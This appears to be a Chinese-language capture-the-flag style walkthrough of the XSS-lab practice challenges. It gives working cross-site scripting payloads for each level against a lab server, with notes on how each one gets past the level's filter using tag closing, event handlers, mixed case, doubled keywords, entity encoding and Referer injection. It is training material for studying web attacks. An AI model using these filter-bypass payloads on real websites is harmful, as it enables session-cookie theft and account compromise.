# XSS-lab实验

## level1

payload：

```bash
47.113.187.190:50974/level1.php?name=111</h2><script>alert(document.cookie)</script>
```

解析：观察URL发现是GET传参并写入H2里，所以闭合H2标签写js就可。

## level2

观察发现值在value

​​

payload：

```bash
111"onclick='javascript:alert(document.cookie)'
```

解析：点击输入框后触发事件

## level3

查看值在value

​​

输入的>被实体化

​​

payload：

```bash
' onfocus=javascript:alert() '
```

​​

## level4

111">   输入发现>被过滤。但是闭合了

​​

payload：  点击后被触发。

```bash
111" onclick='javascript:alert()'
```

## level5

直接输入上方payload

```bash
111" onclick='javascript:alert()'
```

   on被过滤

​​

">  标签闭合了

​​

```bash
"><script>alert()</script>
```

  script又被过滤了

​​

payload：

```bash
"><a href=JavaScript:alert()>点我</a>
```

## level6

```bash
"><a href=JavaScript:alert()>点我</a>
```

  然后href也被过滤了

​​

payload：  虽然过滤很多 但是大小写没过滤。

```bash
"><a hRef=JavaScript:alert()>点我</a>
```

## level7

经过前面过滤   `">href script  on `​  总结使用这个测试，结果全被过滤了.

​​

```bash
payload："><scrscriptipt>alert()</scrscriptipt>   那就使用双写呗

payload："><a hrhrefef="javascrscriptipt:alert('XSS')">111</a>
```

​​

## level8

''' href  script 被过滤，大写也不行

​​

利用href自动Unicode解码

```bash
payload：javascript:alert()      unicode编码后

\&\#106;\&\#97;\&\#118;\&\#97;\&\#115;\&\#99;\&\#114;\&\#105;\&\#112;\&\#116;\&\#58;\&\#97;\&\#108;\&\#101;\&\#114;\&\#116;\&\#40;\&\#41;
```

​​

## level9

输入发现被URL编码

​​

http://www.runoob.com/  输入一个合法链接呢，好像可以跳转。考虑是检测到http://才可以

​​

1.会对特殊字符过滤，需要编码。

2.需要加入http://

3.js代码能执行

4.value先经过URL-->后端校验-->写入href

5.后端校验时不能有特殊被过滤字符（要编码），要有http://（不能被编码）

payload：\&\#106;\&\#97;\&\#118;\&\#97;\&\#115;\&\#99;\&\#114;\&\#105;\&\#112;\&\#116;\&\#58;\&\#97;\&\#108;\&\#101;\&\#114;\&\#116;\&\#40;\&\#41;http://

​​

http://检测到了，但也被当作了js，导致js语法不对。

payload：\&\#106;\&\#97;\&\#118;\&\#97;\&\#115;\&\#99;\&\#114;\&\#105;\&\#112;\&\#116;\&\#58;\&\#97;\&\#108;\&\#101;\&\#114;\&\#116;\&\#40;\&\#41;/\* http:// \*/

​​

## level10

打开没有发现注入点，有三个被隐藏的输入框，但是不知道URL里的参数名，只有input里的name，那后端名称可能和name一样，一个个试试。

​​

输入到第三个发现1出现在了value里。

​​

?t_sort=1“> On hRef SCRipt  输入前面内容，>被过滤，不能使用标签闭合，大写转小写，但未被过滤。

​​

‍

47.113.187.190:50974/level10.php?t_sort=" onfocus=javascript:alert() type="display"

将input框display，点击。

​​

## level11

```bash
http://47.113.187.190:50974/level11.php?t_link=1&t_history=1&t_sort=" onfocus=javascript:alert() type="display"&t_ref=1
```

使用10中的方法来做，发现被html编码了，所以这里搞不了。所以考虑referer

​​

​​

注入成功，但是，<>被过滤啦。

​​

换个写法

payload：

```bash
Referer:" onfocus="javascript:alert()" type="text" "
```

​​

看代码，注入成功。

​​

点击输入框执行。

​​

## level12

这关就和上一关差不多了，所以直接上代码。

payload：

```bash
" onfocus="javascript:alert()" type="text" "
```

​​

​​

## level13

cookie，直接修改存储

payload：

```bash
" onfocus="javascript:alert()" type="text" "
```

​​

​​

## level16

首先，传参，发现是在center标签里放数据。

​​

```bash
http://47.113.187.190:50974/level16.php?keyword=</center>On SCript hREf DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt>
```

使用该payload测试一下，有哪些过滤。

​​

明显发现/、空格、被编码了，script、直接被过滤，有大小写转换。

1、<>没有过滤

2、不能使用scrtpt、空格要编码

```bash
payload：?keyword\=\

payload：http://47.113.187.190:50974/level16.php?keyword=<svg onload=alert(1)>
```

​​

## level17

有一个插件

​​

payload：

```bash
?arg01=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()>; &arg02=" ' sRc DaTa OnFocus OnmOuseOver OnMouseDoWn P <sCriPt> <a hReF=javascript:alert()>;
```

​​

script被过滤、大写转小写、<>被html编码、而鼠标事件、键盘事件没有限制。

payload：

```bash
?arg01\=a&arg02\=666 onmousemove\='alert(1)'
```

​​

## level18

和17一样的

​​
